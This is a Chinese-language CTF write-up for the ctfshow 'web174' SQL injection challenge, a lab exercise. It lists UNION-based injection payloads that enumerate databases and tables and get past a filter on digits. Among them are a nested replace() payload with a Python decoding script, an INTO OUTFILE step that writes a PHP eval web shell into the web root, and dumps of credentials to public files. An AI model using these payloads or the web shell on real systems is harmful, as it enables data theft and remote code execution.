




# web174
列数为2
'order by 2 --+
爆库
```
-1'union select database(),schema_name from information_schema.schemata --+
```
爆表
```
' union select database(),table_name from information_schema.tables where table_schema='ctfshow_web'--+
```
会没有回显,可能是因为返回结果有数字,被检测了ctfshow_user4
```
' union select database(),substr(table_name,1,12) from information_schema.tables where table_schema='ctfshow_web'--+
```
为13时没有回显,猜想是对的,如何取绕过呢?
如果直接爆字段是可以的,但是获取flag时还是会无法显示因为flag中也会有数字
参考网上的思路
1.替换结果中的数字
```
-1' union select 'a', replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'0','a'),'1','b'),'2','c'),'3','d'),'4','e'),'5','f'),'6','g'),'7','h'),'8','i'),'9','j') from ctfshow_user4 where username ='flag' --+
逆转的脚本：

k="c_j__g_b_d__d__f_d-ae_h__e_-e__c__e__g-i__e_d_h-d_e_j_e_g__d__h__g_b_d__f__i"

c=len(k)

flag=""

i=0

while(i<c):

if(k[i]) != '_':

    flag=flag+k[i]

    i=i+1

else:

    flag=flag+ chr(ord(k[i+1])-49)

    i=i+3

print(flag)
```
2.写如木马,然后删除waf
```
-1' union select null,"<?php eval($_POST['cmd']);?>" into outfile "/var/www/html/1.php"--+
```
显示数据返回异常无所谓,只要能访问

删除waf-4的过滤
3.将查询结果生成到新文件中
```
1' union select username,password from ctfshow_user4 into outfile '/var/www/html/flag.txt' --+
```

4.读文件(获取数据库位置@@datadir)  
```
1' union select @@datadir,database() into outfile "/var/www/html/flag1.txt" --+
```


没有权限